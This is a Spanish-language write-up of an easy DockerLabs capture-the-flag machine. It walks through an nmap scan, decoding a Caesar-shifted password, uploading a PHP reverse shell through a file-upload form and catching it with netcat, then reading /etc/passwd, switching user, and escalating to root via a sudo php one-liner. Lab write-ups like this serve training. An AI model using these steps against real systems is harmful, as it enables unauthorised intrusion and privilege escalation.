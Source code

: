 [[Writeups]]
#Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Comenzamos con un escaneo general de nmap:

```bash
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 19:49 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
```

Encontramos dos servicios http y https, vamos a ver la web http: 

![picadillyweb.png](assets/picadillyweb.png)

Vemos que es un listado de archivos con un archivo subido:

```bash 
/// The users mateo password is ////


----------- hdvbfuadcb ------------

"To solve this riddle, think of an ancient Roman emperor and his simple method of shifting letters."

////////////////////////////////////
```

Vemos que esta el usuario mateo que tiene una contraseña que parece que tiene las letras cambiadas de posición.

Por lo que hacemos una simple búsqueda en google y nos da estos resultados:

![cesarletrasgoogle.png](assets/cesarletrasgoogle.png)

Parece que es el cifrado Cesár, vamos a la web dCode para descifrarlo:

![cesardcode.png](assets/cesardcode.png)

Encontramos en la primera rotación que se forma la frase en ingles easycrxazy, con una x en medio de crazy, vamos a guardarla como tal y si en un futuro no funciona la pruebo como easycrazy

User: **mateo** Password: **easycrxazy**

Ahora vamos a ver la web que hay alojada en el servicio https:

![picadillywebhttps.png](assets/picadillywebhttps.png)

hay una opción abajo de la web de subir archivos así que vamos a probar con una reverse shell de php a ver que tal:

![revshellpicadilly.png](assets/revshellpicadilly.png)

Subo una reverse shell de php hecha en la web RevShells, en conreto la pentest monkey y parece que se ha subido y se ha actualizado la web mostrando el nuevo post, dado que en todas las maquinas que he hecho siempre se suben los archivos al directorio /uploads, pruebo ponerlo a ver si sale y de primeras me da justo el resultado que intuí:

![picadillyuploads.png](assets/picadillyuploads.png)

así que iniciamos net cat y clickamos el php:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 55912
Linux fbf4dd865800 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 GNU/Linux
 18:17:42 up 35 min,  0 user,  load average: 2.01, 1.05, 1.28
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fbf4dd865800:/$ 

```

Obtenemos acceso con www-data, enumeramos permisos que podamos tener y no encuentro nada así que vamos a ver el etc/paswd a ver si existe el usuario mateo ya que si es el caso, tenemos sus credenciales:

```bash
www-data@fbf4dd865800:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
mateo:x:1000:1000::/home/mateo:/bin/bash
www-data@fbf4dd865800:/$ 
```

Existe, hacemos un su a mateo con la contraseña que hemos descifrado:

```bash
www-data@fbf4dd865800:/$ su mateo
su mateo
Password: easycrxazy
su: Authentication failure
www-data@fbf4dd865800:/$ su mateo
su mateo
Password: easycrazy
whoami
mateo
```

El primer caso no da resultado pero el segundo si, aunque obtenemos una shell poco interactiva, vamos a hacer un tratamiento de tty:

```bash
script /dev/null -c bash
# Dale a CTRL + Z y aunque parezca que se vaya la consola introduce los siguientes comandos:

stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

ahora vamos a enumerar los permisos Sudo:

![mateosudoperm.png](assets/mateosudoperm.png)

Buscamos en gtfobins y vemos que tenemos esto para php en Sudo:

![gtfobinsphppicadilly.png](assets/gtfobinsphppicadilly.png)

Lo usamos de una manera personalizada para hacerlo en una sola linea:

```bash
sudo php -r "system('/bin/sh');"
```

![rootPicadilly.png](assets/rootPicadilly.png)

Y obtenemos root.